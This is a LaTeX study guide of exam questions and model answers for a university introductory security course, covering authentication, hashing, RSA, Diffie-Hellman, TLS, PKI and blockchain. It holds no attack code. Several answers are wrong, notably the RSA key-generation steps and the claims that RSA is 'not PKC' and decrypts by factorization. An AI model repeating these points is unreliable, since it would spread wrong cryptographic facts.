\documentclass[9pt, letterpaper]{article}
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}
\usepackage{amsmath, mathtools}
\usepackage[margin=0.7in]{geometry}

\usepackage{listings} %code extracts
\usepackage{xcolor} %custom colours
\usepackage{mdframed} %nice frames

\definecolor{light-gray}{gray}{0.95} %the shade of grey that stack exchange uses

\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

\usepackage{tabularx}
\newcolumntype{L}[1]{>{\raggedright\arraybackslash}m{#1}}
\newcolumntype{C}[1]{>{\centering\arraybackslash}m{#1}}
\newcolumntype{R}[1]{>{\raggedleft\arraybackslash}m{#1}}


\lstset{frame=tb,
	backgroundcolor=\color{light-gray},
 	language=PHP,
	aboveskip=3mm,
	belowskip=3mm,
	xleftmargin=.2\textwidth,
	xrightmargin=.2\textwidth,
	showstringspaces=false,
	columns=flexible,
	keywordstyle=\bfseries\color{green!40!black},
	morekeywords={Client, Server},
	numbers=left,
  	numbersep=5pt,
	basicstyle={\small\ttfamily},
	numberstyle=\tiny\color{gray},
	keywordstyle=\color{blue},
	commentstyle=\color{dkgreen},
	stringstyle=\color{mauve},
	breaklines=true,
	breakatwhitespace=true,
	tabsize=5
}

\title{Introduction to Computer and Network Security}
\author{University of Trento - Computer Science \thanks{project carried out by Matteo (https://github.com/matteounitn/domandeIntro2cnsUniTN)}}
\date{September 2021}

\begin{document}
\graphicspath{ {img/} }
\begin{titlepage}
	\maketitle
	\tableofcontents
\end{titlepage}

\section{Introduction}

\subsection{Define the concept of "CIA Triad".}
\begin{itemize}
	\item \textbf{CIA} stands for: 
	\begin{enumerate}
		\item \textbf{\textsc{Confidentiality}}: 
		\begin{itemize}
			\item Prevents unauthorized disclosure of information.
		\end{itemize}				
		\item \textbf{Integrity}:
		\begin{itemize}
			\item The information shouldn't be modified or deleted in an unauthorized manner.
		\end{itemize}
		\item \textbf{Availability}:
		\begin{itemize}
			\item Information should be readily available for authorized users and unauthorized withholding of information or resources should be prevented.
		\end{itemize}
	\end{enumerate}
	\item It's a vague, platonic and high-level concept in Information Security. 
	\item 	There should be some balance between this triad to have a \textbf{truly} secure information.
\end{itemize}

\subsection{Define the concept of “Security policy” and give an example.}
\begin{itemize}
	\item Security policies are a mid-level set of rules and requirements established by an organization, regulating the acceptable use of their info and services. They specify through refinement how the CIA triad is implemented to protect \textbf{confidentiality}, \textbf{integrity} and \textbf{availability} of information.
	\item Examples: 
		\begin{itemize}
			\item All employees must have a strong password, $>16$ characters , strictly (Alphanumeric + Symbols).
			\item  All visitors of the Server Farm should be supervised by a security member.
		\end{itemize}		 
\end{itemize}


\subsection{Define the concept of “Security mechanism” and give an example.}
\begin{itemize}
	\item Device or function designed to provide one or more security services, a more technology-related level that serves as enforcement of Security Policies. 
	\item They are usually rated in terms of strength of service and assurance of design.
	\item Examples:
	\begin{itemize}
		\item Access Control System.
		\item OS Sandbox to isolate applications.
	\end{itemize}
\end{itemize}

\newpage

\section{Authentication I}

\subsection{Define the concept of "Authentication". List and explain the three main classes of authentication factors that can be used in the process and give a concrete example for each of them.}
\begin{itemize}
	\item \textbf{Authentication} is the procedure to verify the identity of an User. It can be useful for access control based on user identity or to log security relevant events in an audit trail.
	\item The three main classes of authentications are:
	\begin{itemize}
		\item \textsc{Something you know}: Password
		\item \textsc{Something you have}: ID Badge
		\item \textsc{Something you are}: Biometric fingerprint
	\end{itemize}
\end{itemize}

\subsection{What is a password? Characterize what it means for a password to be strong and weak.}
\begin{itemize}
	\item A password is a String/Code/Passphrase that should be secretly shared between the user and the system because it's used to prove that you are who you claim to be.
	\item A \textbf{strong password}, according to NIST, it's a password \textbf{easy to remember, hard to guess}. Generally speaking, a passphrase of 4 random and uncommon words (sum up to minimum 8 characters) is considered strong.
	\item Despite what we think, it's no longer mandatory having special characters. It's now considered a \textbf{bad} practice having a password with a single word, hard to remember with special characters.
	\item It doesn't require password time expirations, but \textbf{it should expire if we think we have a breach}.
	\item A \textbf{weak password} is easy to guess, like: common words, common passphrases, common passwords, single word, combination of numbers only, etc.
\end{itemize}

\subsection{What is a brute force guessing attack? How can it be mitigated?}
\begin{itemize}
	\item A \textbf{brute force} guessing attack it's an attack on the authentication process. Technically speaking, it's the act of \textbf{generating all possible combinations} of valid symbols in order to guess the password of an user. 
	\item It can be easily mitigated using \textbf{strong passwords} and \textbf{limiting login attempts}.
\end{itemize}

\subsection{Describe a brute force guessing attack in the context of password storage. How can it be mitigated?}
\begin{itemize}
	\item In this context, a \textbf{brute force guessing attack} consist of trying to obtain the password from \textbf{hash}. 
	\item This is possible by \textbf{generating random strings} (or following a pattern) and \textbf{hashing each one} of this string, \textbf{checking if it's equal to the hacked Hash Digest}.
	\item Formally:
	\begin{itemize}
		\item $x= generate(); $
		\item $h(x)=y_{gen}$
		\item is $y_{gen}= y_{hacked}$? If yes, keep $x$ as the original password, else keep trying.
	\end{itemize}
	\item This can be mitigated by doing \textbf{Password Salting}.
\end{itemize}

\subsection{Define the concept of "Hash function".}
\begin{itemize}
	\item A \textbf{Hash Function} is any function $h$ that gets data $x$ in input of arbitrary size and returns a value $h(x)=y$ ($y$ size is fixed, it doesn't matter how long it's $x$, and it's called \textbf{Hash Digest}).
\end{itemize}

\subsection{Define the concept of “Cryptographic hash function” with at least three key properties. Also, give an example of a widely used standard cryptographic hash function currently used.}
\begin{itemize}
	\item A \textbf{Cryptographic Hash Function} is an \textbf{Hash Function} that is suitable for use in cryptography.
	\item Assuming $x$, $x_1$ and $x_2$ as input, $h(x)$ hash function, $y$ result of the hash function $h(x)=y$.
	\item Proprieties:
	\begin{itemize}
	\item $h$ has to be \textbf{deterministic}: $x_1=x_2 \implies h(x_1)=h(x_2)$.
	\item A small change should change the hash digest extensively (\textbf{Avalanche Effect}).
	\item \textbf{Compression}: $h$ maps inputs $x$ of arbitrary bit-length to outputs $h(x)$ of fixed bit-length $n$.
	\item \textbf{Ease of computation}: given $x$, it's easy to compute $h(x)$.
	\item \textbf{One-way}: given a value $y$, it's computationally hard to find an input $x$ such that $h(x)=y$.
	\item \textbf{Weak collision resistance}: given $x_1$ and $h(x_1)$, it's computationally hard to find another input $x_2$, $x_1\ne x_2$ with $h(x_1)=h(x_2)$.
	\item \textbf{Strong collision resistance}: it's computationally hard to find $x_1$, $x_2$, such that $x_1\ne x_2$ and $h(x_1)=h(x_2)$.
	\end{itemize}
	\item A widely used example is {\tt SHA-256}.
\end{itemize}

\subsection{Define the concept “Password salting”, its purpose and how it works.}
\begin{itemize}
	\item \textbf{Password Salting} comes from the \textbf{Salting} concept. Salting is the procedure of concatenating a pseudorandom generated string to the $x$ input, before hashing them and saving the \textbf{(hashed password + salt)}.
	\item Assuming $x$ as input, $h(x)$ hash function, $y$ result of the hash function $h(x)=y$, $\text{salt}$ as our pseudorandom string: $$h(x+\text{salt})=y_{\text{salted}}$$
	\item As we said before, if we have two input $x_1$, $x_2$ and $x_1=x_2$, their \textbf{hash digest is going to be the same value}.
	\item This can lead to \textbf{guessing one hash to hack more than one account}. If our database with hashed password gets stolen and more than one user have the same password, we are going to \textbf{have the same hash}.
	\item A hacker could try to \textbf{compute random strings}: $$h(\text{random})=y_{rand}$$ until: $$y_{rand} = y_{password}$$ or he could use a \textbf{Rainbow Table} (doing so he would \textbf{obtain more than one password}).
	\item To mitigate this type of attack, we take advantage of \textbf{Avalanche Effect}, concatenating {\tt salt} to our {\tt password}, changing our hash digest completely.
\end{itemize}

\newpage

\section{Cryptography}

\subsection{Define the concept of “Cryptosystem” and explain how its encryption and decryption algorithms can be specified mathematically.}
\begin{itemize}
	\item A cryptosystemis a $5$-tuple $(\mathbf{E},\mathbf{D},\mathbf{M},\mathbf{K},\mathbf{C})$ where:
	\begin{itemize}
		\item $\mathbf{E}:$ \textbf{E}ncrypt Algorithm
		\item $\mathbf{D}:$ \textbf{D}ecrypt Algorithm
		\item $\mathbf{M}:$ set of plaintext \textbf{M}essages
		\item $\mathbf{K}:$ set of \textbf{K}eys
		\item $\mathbf{C}:$ set of \textbf{C}iphertext Messages
	\end{itemize}
	\item We can specify:
	\begin{itemize}
		\item \textbf{Encryption}: $$E: M \times K \to C$$
		\item \textbf{Decryption}: $$D: C \times K \to M$$
	\end{itemize}
\end{itemize}

\subsection{Define the concept of "Key management" and explain why is crucial for cryptography and give some examples.}
\begin{itemize}
	\item \textbf{Key Management} is the process of managing our \textbf{keys} during their lifetime: creation, storage, distribution, destruction. Key are the input to a cryptographic algorithm used to obtain \textbf{Confidentiality}, \textbf{Integrity} and \textbf{Authenticity} over some data.
	\item Following the \textbf{Kerckhoffs' Principle}, the security of a cryptosystem should depend on the secrecy of the key, not the secrecy of the used algorithm. This means we need to secure our key so nobody can use them if not authorized.
	\item For example, keys should be securely stored: we can rely on access control mechanism to protect them or dedicated hardware components.
	\item For example, keys should be shared through a secure channel to avoid malicious interception. This problem is solved using asymmetric encryption techniques.
\end{itemize}

\subsection{What are substitution and transposition ciphers? Give also examples.}
\begin{itemize}
	\item \textbf{Substitution} and \textbf{transposition cipher} are two main techniques to obtain a ciphertext from a plaintext (and viceversa) having a Key in a cryptosystem.
	\item \textbf{Substitution Cipher}: 
	\begin{itemize}
	\item Every unit of our ciphertext is obtained from plaintext by \textbf{replacing with another unit}.
	\item An example: \textsc{Caesar Cipher}, called $ROT_k$, shift to right of $k$ positions all the alphabet, leading to another new alphabet.
	\end{itemize}
	 
	\item \textbf{Transposition Cipher}: 
	\begin{itemize}
		\item Ciphertext is obtained from plaintext by making \textbf{permutation of every unit}.
		\item An example: \textsc{Columnar Cipher} arranges letters writing them in a column of fixed length and swapping them using a keyphrase.
	
	\end{itemize}	 
\end{itemize}

\subsection{What does it mean for a cryptographic technique to be computationally secure?}
\begin{itemize}
	\item A cryptographic technique is \textbf{computationally secure} if and only if:
	\begin{itemize}
		\item The \textbf{time} of breaking it \textbf{exceeds} the \textbf{useful lifetime} of the information;
		\item The \textbf{cost} of breaking it \textbf{exceeds} the \textbf{value} of the information.
	\end{itemize}
\end{itemize}

\subsection{Define the concept of “Symmetric key cryptography”.}
\begin{itemize}
	\item \textbf{Symmetric Key Cryptography} is a cryptosystem where:
	\begin{itemize}
		\item The \textbf{key} is distributed to all whom it may concern;
		\item We have only a \textbf{single key} to Encrypt and Decrypt.
		\item \textbf{Key management} determines who can access the data.
	\end{itemize}
	\item \textbf{Encryption}: $$E(K \mbox{, }M) = C$$
	\item \textbf{Decryption}: $$D(K \mbox{, }C) = M$$
\end{itemize}


\subsection{Why is DES deprecated? Why is AES still used?}
\begin{itemize}
	\item \textbf{DES} is deprecated because it uses \textsc{Feistel Algorithm} with $56$ bit key. This leads to \textbf{low entropy}, so it's \textbf{easier} to compute the key using \textbf{brute force}.
	\item \textbf{AES} is still used because it uses a stronger crypto scheme called Rijndael, with $\ge 128$ bit key size (generally speaking $128,192,256$ bits). This leads to \textbf{higher entropy} of the \textbf{keyspace}, providing (using the weakest $128$ bit AES key) $10^{21}$ times more keys than DES $56$ bit key.
\end{itemize}

\subsection{Define the concept of “Asymmetric (public) key cryptography”.}
\begin{itemize}
	\item \textbf{Asymmetric Public Key Cryptography} (\textbf{PKC}) is a cryptosystem where:
	\begin{itemize}
		\item Each user have $2$ keys, a \textbf{private key} and a \textbf{public key}.
		\item It's based on \textbf{One Way Functions}:
		\begin{itemize}
			\item \textbf{Multiplication} is \textbf{easy to compute}: $$ 13\cdot 17 = 221 $$
		\item \textbf{Factorization} is \textbf{hard to compute}: $$ 221 = \mbox{  } ? \mbox{ }\cdot \mbox{ } ? $$
		\item \textbf{Exponentiation} is \textbf{easy to compute}: $$ x^y = 5^3 = 125 $$
		\item \textbf{Finding} $\log$ is \textbf{hard to compute}: $$ \log_x125 = \mbox{ } ? $$
		\end{itemize}
		\item \textbf{Encryption}:
		\begin{itemize}
			\item \textbf{Public Key} encrypt
			\item \textbf{Private Key} decrypt
			\item This leads to \textbf{Confidentiality} and \textbf{Integrity}
		\end{itemize}
		\item \textbf{Signature} and \textbf{Validation}:
		\begin{itemize}
			\item \textbf{Public Key} decrypt
			\item \textbf{Private Key} encrypt
			\item This leads to \textbf{Integrity}, \textbf{Authenticity} (if using certificate) and \textbf{Non-Repudiation} (you can't say \textit{"I didn't send that"}).
		\end{itemize}
	\end{itemize}
\end{itemize}

\newpage

\subsection{Explain the RSA technique and describe its flow.}
\begin{itemize}
	\item The \textbf{RSA} (Rivest - Shamir - Adleman) is a technique that:
	\begin{itemize}
		\item \textbf{factorization to decrypt}, \textbf{multiplication to encrypt};
		\item is widely used in our modern days to maintain the \textbf{CIA triad};
		\item uses \textbf{prime numbers};
		\item uses \textbf{private key} and \textbf{public key};
		\item uses \textbf{factorizations}, uses \textbf{One Way Function};
		\item it's \textbf{not PKC}, even if it uses Private Key and Public Key.
	\end{itemize}
	\item \textbf{Generate} Public and Private \textbf{Key}:
	\begin{enumerate}
		\item Find \textbf{two primes} big enough $p,\mbox{ }q \mbox{ }|\mbox{ } p\ne q$
		\item Define \textbf{modulus} $N= p \cdot q$
		\item Define $e= (p-1)(q-1)$
		\item Find $d$ such that $e \cdot d = 1 \mod [(p-1)(q-1)]$
		\item \textbf{Public key}: $(N,\mbox{ }e)$
		\item \textbf{Private key}: $(d)$
	\end{enumerate}
	\item It's flow is:
	\begin{itemize}
		\item \textbf{A} wants to send a \textbf{message} to \textbf{B}
		\item \textbf{B sends} his/her \textbf{public key} to \textbf{A}
		\item \textbf{A write} a message and \textbf{encrypt the message} with \textbf{B public key}.
		\item \textbf{A sends} the \textbf{encrypted message} to \textbf{B}.
		\item \textbf{B decrypt} the message with \textbf{his/her private key}.
	\end{itemize}
	If B wants to respond, repeat all this but switch A with B.
\end{itemize}

\subsection{Explain advantages and disadvantages of symmetric and asymmetric cryptography.}
\begin{itemize}
	\item \textbf{Symmetric cryptography}:
	\begin{itemize}
		\item \textbf{Pros}:
		\begin{itemize}
			\item It's faster.
		\end{itemize}
		\item \textbf{Cons}:
		\begin{itemize}
			\item If someone intercept the key, it's all useless, so you can't use untrusted communication channel.
			\item You can't verify who sent you the information.
		\end{itemize}
	\end{itemize}
	\item \textbf{Asymmetric Cryptography}:
		\begin{itemize}
		\item \textbf{Pros}:
		\begin{itemize}
			\item Can be used on untrusted channel.
			\item You can verify the integrity of the message with a signature.
		\end{itemize}
		\item \textbf{Cons}:
		\begin{itemize}
			\item You still can't associate real identities with public keys, you have to use certificates.
			\item It's slower.
			\item Diffie Hellman is MITMable.
		\end{itemize}
	\end{itemize}
\end{itemize}

\subsection{Explain the Diffie-Hellman technique, describe its flow and a possible attack.}
\begin{itemize}
	\item The \textbf{DH} is a technique that:
	\begin{itemize}
		\item is mainly used as a \textbf{key agreement protocol};
		\item it uses the \textbf{Discrete Logarithm Problem} with \textbf{One Way Function};
		\item exponentiation to encrypt; log to decrypt.
	\end{itemize}
	\item \textbf{Key Generation}:
	\begin{itemize}
		\item It uses \textbf{exponentiation} as a \textbf{One Way Function}.
		\item \textbf{Discrete Logarithm Problem} uses:
		\begin{itemize}
			\item $p$ \textbf{prime number} (higher is better);
			\item $g$ \textbf{generator};
			\item $x$ \textbf{secret number};
			\item $X = g^x \mod p$ such that ($0<X<p$)
		\end{itemize}
		\item Flow:
		\begin{itemize}
			\item Client sends to Server $p,\mbox{ }g,\mbox{  }A= g^a\mod p$ , where $a$ is a \textbf{secret number} known only to Client.
			\item Server sent back $B=g^b\mod p$, where $b$ is a \textbf{secret number} known only to Server.
			\item Client compute $\tt{Shared}=B^a\mod p$
			\item Server compute $\tt{Shared}=A^b\mod p$
			\item {\tt Shared} is \textbf{the same} if all went good.
			\item Now $\tt{Shared}$ is known to both, but it was \textbf{never sent}, so it's private.
		\end{itemize}
		\item This is generally used on another bulk algorithm.
	\end{itemize}
	\item \textbf{DH weakness is MITM} (Man In The Middle), \textbf{acting as} a Server for the \textbf{true Client} and as a Client for the \textbf{true Server}, simultaneously.
\end{itemize}

\subsection{Explain the concept of "One-way function" and how it's used in RSA and Diffie-Hellman.}
\begin{itemize}
	\item \textbf{One Way Functions}:
	\begin{itemize}
		\item \textbf{Multiplication} is \textbf{easy to compute}: $$ 13\cdot 17 = 221 $$
		\item \textbf{Factorization} is \textbf{hard to compute}: $$ 221 = \mbox{  } ? \mbox{ }\cdot \mbox{ } ? $$
		\item \textbf{Exponentiation} is \textbf{easy to compute}: $$ x^y = 5^3 = 125 $$
		\item \textbf{Finding} $\log$ is \textbf{hard to compute}: $$ \log_x125 = \mbox{ } ? $$
	\end{itemize}
	\item In RSA is used \textbf{factorization}, in \textsc{DH} is used \textbf{Discrete Logarithm Problem} (check explanation below for each one).
\end{itemize}

\newpage

\section{Cryptography at work}

\subsection{How can PKC be used for identification (sign messages)?}
\begin{itemize}
	\item \textbf{PKC} could be used to \textbf{identification} (sign messages) by:
	\begin{itemize}
		\item \textbf{Public Key} decrypt
		\item \textbf{Private Key} encrypt
		\item This leads to \textbf{Integrity}, \textbf{Authenticity} (if using certificate) and \textbf{Non-Repudiation} (you can't say \textit{"I didn't send that"}).
	\end{itemize}
\end{itemize}

\subsection{Explain the notion of “Integrity” and how a cryptographic hash function can be used to guarantee the integrity of messages.}
\begin{itemize}
	\item \textbf{Integrity} is preserved when the \textbf{data are intact}, not modified from sender to receiver.
	\item To \textbf{guarantee integrity} with \textbf{Hash Function}:
	\begin{itemize}
		\item \textsc{Sender Side}:
		\begin{itemize}
			\item \textbf{A} create \textbf{Hash Digest} of the \textbf{message}.
			\item \textbf{A} uses \textbf{his/her Private Key to sign} the Digest.
			\item \textbf{A} uses \textbf{B Public Key} to encrypt the message.
			\item \textbf{A send} the message to \textbf{B}.
		\end{itemize}
		\item \textsc{Receiver Side}:
		\begin{itemize}
			\item \textbf{B receive} the message.
			\item \textbf{B decrypt} the message with \textbf{his/her Private Key}.
			\item \textbf{B check the signature of the hash with A Public Key}.
			\item \textbf{B uses} the \textbf{same hash} function used by A to \textbf{compute the Hash Digest of the message}.
			\item \textbf{B checks} if the \textbf{computed Hash Digest is equal to the received one}.
			\item If \textbf{true}, \textbf{Integrity is archieved}.
		\end{itemize}
	\end{itemize}
\end{itemize}

\subsection{Explain how a Man-In-The-Middle attack on a network can be countered.}
\begin{itemize}
	\item \textbf{MITM} attack can be countered by using \textbf{TLS/SSL} security. Using this protocol will let the Middleman see all the packets, but they are encrypted by the TLS/SSL Master key decided with \textsc{Diffie Hellman} (\textbf{Confidentiality}).
	\item \textbf{MITM} can still \textbf{attack DH Key Exchange}, but he will get busted if \textbf{Server is using a strong Cipher} and a \textbf{Certificate X.509} (\textbf{Authenticity}).
	\item \textbf{Integrity} is obtained by \textbf{cipherspec's Hash Algorithm}, which needs to be \textbf{strong} and safe.
\end{itemize}

\subsection{What is a digital certificate and what are its main components? (X.509 standard)}
\begin{itemize}
	\item A \textbf{digital certificate} is a \textbf{binding of a Public Key} and a \textbf{Subject} (supposedly it's owner).
	\item Main \textbf{components} of a Digital Certificate are:
	\begin{itemize}
		\item \textsc{Issuer}: \textbf{Certification Authority Data}.
		\item \textsc{Subject}: \textbf{Subject Data}.
		\item \textbf{Expiration Date}.
	\end{itemize}
	\item Each \textbf{Data} is composed of:
	\begin{itemize}
		\item \textbf{Unique ID}
		\item \textbf{Name}
		\item \textbf{Signature} (only CA)
		\item \textbf{Public Key} (only Subject)
		\item \textbf{Algorithm used to compute Signature/Public Key}.
	\end{itemize}
	\item Extension of data, Serial Number are also there.
\end{itemize}

\subsection{Describe the Public Key Infrastructure and its main entities (CA, RA, VA).}
\begin{itemize}
	\item The \textbf{PKI} is a system that \textbf{provides} for a {\tt TTP} (\textbf{Trusted Third Party}) to vouch for user identities with the binding of public keys to subjects, through the \textbf{generation of a Trusted Digital Certificate}.
	\item PKI is \textbf{composed} of:
	\begin{itemize}
		\item \textbf{Certification Authority} (CA): 
		\begin{itemize}
			\item Third party that associates an identity with its public key and generates the certificate, signing it.
		\end{itemize}
		\item \textbf{Registration Authority} (RA): 
		\begin{itemize}
			\item Responsible for accepting requests for digital certificates and authenticating the entity, assuring valid and correct registration.
		\end{itemize}
		\item \textbf{Validation Authority} (VA): 
		\begin{itemize}
			\item Provide entity information on behalf of the CA. Interrogates the CRL, checks signatures, validity and distribution of certificates. Usually it's the browser role.
		\end{itemize}
		\item \textbf{Cryptographic Practices Statement} (CPS): 
		\begin{itemize}
			\item Telling everyone which security is implementing for issuing certificates.
		\end{itemize}
		\item \textbf{Certification Repository} (CR): 
		\begin{itemize}
			\item Where the certificates are stored.
		\end{itemize} 
		\item \textbf{Certificate Revocation List} (CRL): 
		\begin{itemize}
			\item Where are stored all the revoked/not valid certificates.
		\end{itemize} 
	\end{itemize}
\end{itemize}

\subsection{Explain TLS by defining its main goal, in which context is routinely used, its relationships with SSL. Then briefly describe the purposes of its two main sub-protocols.}
\begin{itemize}
	\item The main goal of TLS protocol is to \textbf{provide privacy} and \textbf{data integrity} between two communicating applications.
	\item It's routinely used between \textbf{Browsers} and \textbf{Web Servers}.
	\item \textbf{TLS} was born to \textbf{standardize SSL}. TLS 1.0 starts from \textbf{SSLv3 + Tweaks}. TLS has the same \textbf{SSL protocol design} but uses \textbf{different algorithms}.
	\item The two main \textbf{sub-protocols} are:
	\begin{itemize}
		\item \textbf{Handshake Protocol}: 
		\begin{itemize}
			\item It negotiate ciphers, protocols and connect Client and Server providing Privacy (confidentiality), Integrity and (optional) Authentication of Server and (optional) Client. 
			\item The handshake protocol uses \textbf{Diffie-Hellman} to exchange the \textbf{Master Key} that will be used in TLS Record Protocol, \textbf{switching from Asymmetric Encryption} (Diffie-Hellman) \textbf{to Symmetric Encryption} (RC4, IDEA, DES, 3DES, AES, ...).
		\end{itemize}	
		\item \textbf{Record Protocol}: 
		\begin{itemize}
			\item Use the shared key established in the handshake protocol to protect the communication between client and server.
		\end{itemize}		 
	\end{itemize}
\end{itemize}

\subsection{What are the potential security problems of TLS?}
\begin{itemize}
	\item TLS suffers from some security issues for a few reasons:
	\begin{itemize}
		\item \textbf{Backward compatibility} with weak ciphers and broken hash function.
		\item \textbf{Logical flaws} in the protocol that can be used to trick both client and server.
	\end{itemize}
	\item In the initial exchange of Hello Messages, client and server negotiates the protocol version and the cipher suite: for this reason an attacker can force the use of an exploitable cipher suite or version (see 4.8).
	\item Some \textbf{examples of attacks} are: sweet32, 3shake, crime...
\end{itemize}

\subsection{Describe the SSL/TLS handshake protocol with the help of the Message Sequence Chart.}
\begin{center}

\includegraphics[scale=0.5]{SSLHandshake.png}
\end{center}

\begin{itemize}
\item Messagge Sequence:
	\begin{itemize}
	\item \textbf{ClientHello}: start by proposing
		\begin{itemize}
			\item 1st cipher available;
			\item a protocol available.
		\end{itemize}
	\item \textbf{ServerHello}:
		\begin{itemize}
			\item Requested cipher (if available or permitted);
			\item Requested protocol (if available or permitted);
			\item \textbf{Session ID}
		\end{itemize}
	\item \textbf{Certificate}: if asked.
	\item \textbf{ServerKeyExchange}: Diffie-Hellman Key of Server, this will be used to generate the \textbf{Master Key}.
	\item \textbf{CertificateRequest}: if the Server wants to authenticate the user, ask for a Client certificate.
	\item \textbf{UserKeyExchange}: Diffie-Hellman Key of Client, this will be used to generate the \textbf{Master Key}.
	\item \textbf{CertificateVerify}: if asked, this will provide a mean for the Server to validate the Client certificate.
	\item \textbf{ChangeCipherSpec}: 1 bit, the participant transitions to the agreed cipher suite.
	\item \textbf{Finished}: the entire handshake is hashed and encrypted with the symmetric master key.
	\end{itemize}
	\item Then they'll both use the Diffie-Hellman \textbf{generated Master Key} to swap to Symmetric Encryption with the previously chosen cipher (and protocol version).
\end{itemize}


\subsection{Why are digital signature important? What kind of problem they solve?}
\begin{itemize}
	\item \textbf{Digital Signature} are important because they solve the \textbf{Integrity} problem, by \textbf{signing} an hash/file we are sure nothing has been modified in the communication.
	\item Digital Signature also offer \textbf{Non-Repudiation}: if I sign a message, I can't later say that I didn't send that message.
	\item They are strictly interconnected with Certificates, which certifies a signature, creating a bond between \textbf{Subject} and \textbf{Public Key}, leading to \textbf{Authentication}.
\end{itemize}






\section{Blockchain}

\subsection{Describe the structure of the blockchain data-structure.}
\begin{itemize}
	\item The \textbf{Blockchain Data Structure} is composed of:
	\begin{itemize}
		\item \textbf{Index}: $i$
		\item \textbf{Timestamp}: $t$
		\item \textbf{Data}: $d$
		\item \textbf{Hash of the previous Block}: $Hp$
		\item \textbf{Hash of these information}: $h \mbox{ } (i,\mbox{ } t,\mbox{  } d,\mbox{  } Hp)$
	\end{itemize}
\end{itemize}

\subsection{In the context of blockchain, what is the difference between private and permissioned? Define the notion of immutability. Define the notions of height and depth of a block.}
\begin{itemize}
	\item A \textbf{blockchain} is \textbf{private} if it's access it's restricted by some procedure, \textbf{only some can read} the blockchain. 
	\item A \textbf{blockchain} is \textbf{permissioned} when everybody can't write on it, \textbf{only some privileged} ones are \textbf{permitted to write} the blockchain.
	\item A \textbf{permissioned blockchain} can be \textbf{public} or \textbf{private}.
	\item A \textbf{private blockchain} can be \textbf{permission-less} or \textbf{permissioned}.
	\item A \textbf{block is immutable} when each change to \textbf{old transactions can't be modified} without resulting in an \textbf{inconsistency state}, leading to the removal of the upcoming transaction(edit) and restoring it to a consistency state.
	\item \textbf{Height}: Number of \textbf{blocks from the first} (genesis).
	\item \textbf{Depth}: Number of \textbf{blocks from the end}.
	\item Other useful informations:
	\begin{itemize}
		\item \textbf{Stability(k)}: after $k$ blocks, the transition is called 'stable'.
		\item \textbf{Persistence}: if someone honest calls a transition stable, all the honest distributed ledger have the same stable position $k$.
		\item \textbf{Liveness}: after $u$ rounds of an authentic transaction, it becames stable for all honest ledger.
	\end{itemize}
\end{itemize}

\subsection{What is the double spending problem? How can it be solved?}
\begin{itemize}
	\item The \textbf{double spending problem} is the issue where an user can spend the same amount of money from the same wallet at the same time. This leads to two unconfirmed transaction using the same amount of money.
	\item This is mitigated by the consensus BFT algorithm called \textbf{Proof-of-Work}, consist of solving a mathematical puzzle to check which one will put the block next in the blockchain. When the hash is solved, using distributed ledger, the owner of the block let everyone knows that the \textbf{block is added} because he won the race, \textbf{solving the hash before others}. When this is added, the other nodes \textbf{will check and confirm} (\textbf{validate}) that the solution given matches.
	\item One of the two transaction is added to a block before putting it in the blockchain and this block is connected to the blockchain \textbf{if the owner of the block solves a mathematical puzzle} (hashing) before someone else.
	\item If the second transaction is checked, it will be rejected because of the first one already in the blockchain.
	\item If both are added at the same time in different blocks, a race will start.
	\item After 6 blocks, one of the two should be rejected ($\simeq 0.1\%$ that both still lives).
\end{itemize}

\subsection{What's the Byzantine General Problem and why is it relevant for blockchain?}
\begin{itemize}
	\item The \textbf{Byzantine General Problem} is an issue that appears when more than one general have to attack a single point.
	To win, they must attack all together. They can retreat, but all together. All generals have to agree to the same positions (\textbf{consensus}).
	\item The \textbf{problems} that might appears are:
	\begin{itemize}
		\item What if at least one of the general is a traitor?
		\item What if at least one of the general won't listen the other?
		\item What if the communications between generals get lost or damaged? Or even changed?
		\item How can I check that the others general have got my message? 
		\item How can they check if their ACK came to me?
	\end{itemize}
	\item To solve this problem, we have a \textbf{Byzantine Fault Tolerance}.
	\item This is correlated to blockchain because each general is a \textbf{node in the blockchain}, trying to obtain a consensus. 
	\item All the \textbf{participants of the network} have to \textbf{agree to the same action} on the Distributed Ledger.
\end{itemize}

\subsection{What is the Proof-Of-Work approach to solving the consensus problem?}
\begin{itemize}
	\item \textbf{Byzantine Fault Tolerance} algorithm called \textbf{Proof-of-Work}, consist of solving a mathematical puzzle to extract the node that will add the next block in the blockchain.
	\item The nodes have to compete against each other to be the first to guess the solution.
	\item When the \textbf{problem is solved}, the \textbf{winner updates its distributed ledger and broadcasts the solution}: 
	\begin{itemize}
		\item The owner of the block let everyone knows that the \textbf{block is added} because he won the race, \textbf{solving the problem before others}.
		\item When this is added, the other nodes will check and confirm (validate) that the solution is correct.
\end{itemize}	 
	\item When the block is added, the owner \textbf{gets rewarded with ownership} of the block and a reward.
	\item The mathematical puzzle should be \textbf{hard to compute but easy to verify}, for example find a value $x$ such that $h(x+1234) > 12$ using a \textbf{hash function} $h$.
\end{itemize}

\subsection{Explain the difference between a Blockchain and a Distributed Ledger.}
\begin{itemize}
	\item A \textbf{blockchain is a distributed ledger}, but \textbf{not every distributed ledger is a blockchain}.
	\item They have in \textbf{common}:
	\begin{itemize}
		\item A distributed ledger copies are distributed among the nodes.
		\item Every time there's an update, every ledger gets updated.
	\end{itemize}
	\item A blockchain is also a chain of blocks, while \textbf{Distributed Ledger isn't necessarily a blockchain}.
\end{itemize}

